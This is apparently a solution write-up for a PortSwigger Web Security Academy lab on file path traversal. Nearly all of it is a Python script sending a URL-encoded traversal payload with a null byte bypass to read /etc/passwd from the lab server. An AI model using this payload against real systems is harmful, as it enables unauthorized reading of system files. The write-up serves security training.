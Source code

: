# Lab: File path traversal, validation of file extension with null byte bypass

link to lab: https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass

Solution: 

```python
import requests

response = requests.get(
    'https://0a86008203b1e01dc0b6c70d00930038.web-security-academy.net/image?filename=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00.jpg',
    verify=False,
)

print(response.text)
```